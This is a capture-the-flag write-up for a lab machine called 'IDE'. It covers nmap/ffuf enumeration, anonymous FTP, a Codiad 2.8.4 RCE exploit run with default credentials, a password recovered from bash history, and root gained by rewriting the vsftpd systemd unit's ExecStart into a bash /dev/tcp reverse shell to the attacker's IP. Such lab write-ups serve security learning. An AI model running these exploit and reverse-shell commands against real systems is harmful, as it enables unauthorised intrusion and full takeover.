 # IDE

<img src="ide.png" width=200 height=200 alt="ide">

## Enmeration

### nmap

```
Discovered open port 21/tcp on 10.10.6.68
Discovered open port 80/tcp on 10.10.6.68
Discovered open port 22/tcp on 10.10.6.68
Discovered open port 62337/tcp on 10.10.6.68

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC94RvPaQ09Xx+jMj32opOMbghuvx4OeBVLc+/4Hascmrtsa+SMtQGSY7b+eyW8Zymxi94rGBIN2ydPxy3XXGtkaCdQluOEw5CqSdb/qyeH+L/1PwIhLrr+jzUoUzmQil+oUOpVMOkcW7a00BMSxMCij0HdhlVDNkWvPdGxKBviBDEKZAH0hJEfexz3Tm65cmBpMe7WCPiJGTvoU9weXUnO3+41Ig8qF7kNNfbHjTgS0+XTnDXk03nZwIIwdvP8dZ8lZHdooM8J9u0Zecu4OvPiC4XBzPYNs+6ntLziKlRMgQls0e3yMOaAuKfGYHJKwu4AcluJ/+g90Hr0UqmYLHEV
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBzKTu7YDGKubQ4ADeCztKu0LL5RtBXnjgjE07e3Go/GbZB2vAP2J9OEQH/PwlssyImSnS3myib+gPdQx54lqZU=
|   256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ+oGPm8ZVYNUtX4r3Fpmcj9T9F2SjcRg4ansmeGR3cP
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel



PORT      STATE SERVICE REASON  VERSION
62337/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: B4A327D2242C42CF2EE89C623279665F
|_http-title: Codiad 2.8.4
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

### ffuf

```
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
components              [Status: 301, Size: 322, Words: 20, Lines: 10]
data                    [Status: 301, Size: 316, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.php               [Status: 200, Size: 5239, Words: 1739, Lines: 87]
js                      [Status: 301, Size: 314, Words: 20, Lines: 10]
languages               [Status: 301, Size: 321, Words: 20, Lines: 10]
lib                     [Status: 301, Size: 315, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 319, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 318, Words: 20, Lines: 10]
```

The room said enumeration is important so we took that personally.

full nmap scan or you miss the main thing...the real website is on port 62337

But first lets grab whatever is in ftp folder

At first I thought ftp folder was empty...the subfolder was named `...`

cd into it and find a file named `-`

```
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```

nmap says the actual website use codiad 2.8.4

As we dont know what that is we google but found its a web ide

And there is an RCE vulnerability with exploitdb script

random passwords trials got us in the web ide (I was about to bruteforce with hydra lol)

`john : password`

As we can login we see the code john was workig on but nothing useful in it

let's use the exploit db python script to get inside

`python exploit.py http://10.10.172.231:62337/ john password 10.8.226.203 2311 linux`

And we are in

first we get comfortable

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

```
www-data@ide:/home$ cd drac
cd drac
www-data@ide:/home/drac$ ls
ls
user.txt
www-data@ide:/home/drac$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```

I am not even surprised

```
ls -al
total 52
drwxr-xr-x 6 drac drac 4096 Aug 4 07:06 .
drwxr-xr-x 3 root root 4096 Jun 17 14:01 ..
-rw------- 1 drac drac 49 Jun 18 06:02 .Xauthority
-rw-r--r-- 1 drac drac 36 Jul 11 12:11 .bash_history
-rw-r--r-- 1 drac drac 220 Apr 4 2018 .bash_logout
-rw-r--r-- 1 drac drac 3787 Jul 11 11:53 .bashrc
drwx------ 4 drac drac 4096 Jun 18 06:03 .cache
drwxr-x--- 3 drac drac 4096 Jun 18 06:47 .config
drwx------ 4 drac drac 4096 Jun 18 06:48 .gnupg
drwx------ 3 drac drac 4096 Jun 18 05:49 .local
-rw-r--r-- 1 drac drac 807 Apr 4 2018 .profile
-rw-r--r-- 1 drac drac 0 Jun 17 14:03 .sudo_as_admin_successful
-rw------- 1 drac drac 557 Jun 18 05:49 .xsession-errors
-r-------- 1 drac drac 33 Jun 18 06:32 user.txt
```

ok drac only can read the flag but anyone can read his bash history...lol

that thing is supposed to go to void (/dev/null)

```
cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'

www-data@ide:/home/drac$ su drac
su drac
Password: Th3dRaCULa1sR3aL
```

`drac@ide:~$ cat user.txt`

And we got User Flag

Now privileges

## privilege escalation

```
sudo -l

Matching Defaults entries for drac on ide:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
(ALL : ALL) /usr/sbin/service vsftpd restart
```

The ftp service? hmm? I dont know

```
locate vsftpd.service
/etc/systemd/system/multi-user.target.wants/vsftpd.service

cd /etc/systemd/system/multi-user.target.wants

cat vsftpd.service

[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

Alright let's change the `ExecStart` to a reverse shell

```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.226.203/4444 0>&1'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

We echo all that in `vsftpd.service` and listen with a new netcat on said port

Now we restart the service..reload daemon first

```
systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: Th3dRaCULa1sR3aL

==== AUTHENTICATION COMPLETE ===
```

```
drac@ide:/etc/systemd/system/multi-user.target.wants$ sudo /usr/sbin/service vsftpd restart
```

Aaand...NOTHING

I don't know why but I had to do the restart twice

```
root@ide:/# id
id
uid=0(root) gid=0(root) groups=0(root)

cat root.txt
```

Great room! Get some more!
